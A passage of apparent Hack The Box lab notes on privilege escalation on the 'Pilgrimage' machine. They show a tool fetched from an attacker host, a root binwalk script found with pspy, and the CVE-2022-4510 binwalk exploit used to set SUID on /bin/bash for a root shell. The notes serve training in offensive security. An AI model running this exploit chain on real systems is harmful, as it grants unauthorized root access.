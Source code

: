 ```bash
Connecting to 10.10.16.12:80... connected.                                                                                            
HTTP request sent, awaiting response... 200 OK                                                                                        
Length: 3104768 (3.0M) [application/octet-stream]                                                                                     
Saving to: ‘pspy64’                                                                                                                   

pspy64                            100%[===========================================================>]   2.96M  1006KB/s    in 3.0s     

2025-01-31 10:46:20 (1006 KB/s) - ‘pspy64’ saved [3104768/3104768]

```
- run pspy on target machine 
	- look for processes running as root with a UID=0 
	- malwarescan.sh looks interesting
	- `2025/01/31 10:47:08 CMD: UID=0     PID=768    | /bin/bash /usr/sbin/malwarescan.sh `
- navigating to /bin/bash /usr/sbin/malwarescan.sh  
	- reveals inotifywait running something called binwalk
	- on filename=/var/www/pilgrimage.htb/shrunk/
```bash
emily@pilgrimage:~$ cat /usr/sbin/malwarescan.sh                          
#!/bin/bash                                                                                                                         
blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done

```
- running binwalk reveals version 2.3.2
```bash
emily@pilgrimage:~$ binwalk                                               
Binwalk v2.3.2                                                                                                                        
Craig Heffner, ReFirmLabs                                                                                                             
https://github.com/ReFirmLabs/binwalk
```
- searching for binwalk vulnerabilities
	- [Binwalk v2.3.2 - Remote Command Execution (RCE) ](https://www.exploit-db.com/exploits/51249)
	- [CVE-2022-4510-WalkingPath](https://github.com/adhikara13/CVE-2022-4510-WalkingPath) 
- move to /var/www/pilgrimage.htb/shrunk
- copy walkingpath code from git hub into a new file
- `python3 walkingpath.py command --command "chmod u+s /bin/bash" input.png`
- Using walking path to create command 'chmod u+s /bin/bash'
- apply suid to bash, 
- then `watch -n 1.0 ls -ld /bin/bash`, 
- then run `bash -p` when permissions change
